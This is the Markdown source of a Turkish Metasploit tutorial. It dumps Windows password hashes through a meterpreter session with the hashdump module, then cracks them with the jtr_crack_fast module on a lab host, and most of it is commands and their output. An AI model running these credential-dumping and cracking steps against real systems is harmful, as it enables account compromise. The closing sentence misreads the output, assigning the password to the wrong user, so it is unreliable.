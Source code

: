 ```yaml
---
draft: false

title:  'MSF İçinde John The Ripper'
date: '2017-06-05T13:42:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.' 
 
url:  /tr/msf-icinde-john-the-ripper/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## John the Ripper



John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.



Metasploit içerisinde de John The Ripper kullanabilirsiniz. Burada kullanılacak John the Ripper, basit algoritmalarla ilgilenir. Çok karmaşık ve ileri düzey hash kodları için Metasploit dışında çalışmanız gerektiğini belirtelim. Metasploit içindeki John the Ripper, sadece LM veya NTLM hash kodlarını çözmek için başlangıç düzeyinde işlem yapmanıza yarar. Bir örnekle görelim.



Öncelikle hedef bilgisayarda meterpreter oturum açtığımızı kabul ediyoruz. `session 1` olarak aktif halde olan oturum için `post/windows/gather/hashdump` modülünü aktif hale getirip hash bilgilerini alalım.


```bash
msf auxiliary(handler) > use post/windows/gather/hashdump
msf post(hashdump) > set session 1
session => 1
 
msf post(hashdump) > run

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY bffad2dcc991597aaa19f90e8bc4ee00...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...


Administrator:500:cb5f77772e5178b77b9fbd79429286db:b78fe104983b5c754a27c1784544fda7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:810185b1c0dd86dd756d138f54162df8:7b8f23708aec7107bfdf0925dbb2fed7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::


> Post module execution completed
```



Hash bilgilerini ekranda görebilirsiniz. Şimdi `auxiliary/analyze/jtr_crack_fast` modülünü kullanalım.


```bash
msf post(hashdump) > use auxiliary/analyze/jtr_crack_fast
msf auxiliary(jtr_crack_fast) > run

> Seeded the password database with 8 words...

guesses: 3  time: 0:00:00:04 DONE (Sat Jul 16 19:59:04 2011)  c/s: 12951K  trying: WIZ1900 - ZZZ1900
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES **[**128/128 BS SSE2])
> Output: D                (cred_6:2)
> Output: PASSWOR          (cred_6:1)
> Output: GG               (cred_1:2)
Warning: mixed-case charset, but the current hash type is **case**-insensitive;
some candidate passwords may be unnecessarily tried more than once.
guesses: 1  time: 0:00:00:05 DONE (Sat Jul 16 19:59:10 2011)  c/s: 44256K  trying: **||**V**}** - **||**|**}**
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES **[**128/128 BS SSE2])
> Output: Remaining 4 password hashes with no different salts
> Output: (cred_2)
guesses: 0  time: 0:00:00:00 DONE (Sat Jul 16 19:59:10 2011)  c/s: 6666K  trying: 89093 - 89092
> Output: Loaded 7 password hashes with no different salts (LM DES **[**128/128 BS SSE2])
> Output: Remaining 3 password hashes with no different salts
guesses: 1  time: 0:00:00:11 DONE (Sat Jul 16 19:59:21 2011)  c/s: 29609K  trying: zwingli1900 - password1900
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 **[**128/128 SSE2 + 32/32])
> Output: password         (cred_6)
guesses: 1  time: 0:00:00:05 DONE (Sat Jul 16 19:59:27 2011)  c/s: 64816K  trying: **||**|**}**
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 **[**128/128 SSE2 + 32/32])
> Output: Remaining 5 password hashes with no different salts
> Output: (cred_2)
guesses: 0  time: 0:00:00:00 DONE (Sat Jul 16 19:59:27 2011)  c/s: 7407K  trying: 89030 - 89092
> Output: Loaded 6 password hashes with no different salts (NT MD4 **[**128/128 SSE2 + 32/32])
> Output: Remaining 4 password hashes with no different salts

**[**+] Cracked: Guest: (192.168.184.134:445)
**[**+] Cracked: rAWjAW2:password (192.168.184.134:445)
> Auxiliary module execution completed
msf auxiliary(jtr_crack_fast) >
```



Görüldüğü gibi `192.168.184.134` IP adresinde `Guest` kullanıcısı için parola `rAWjAW2` olarak bulundu.
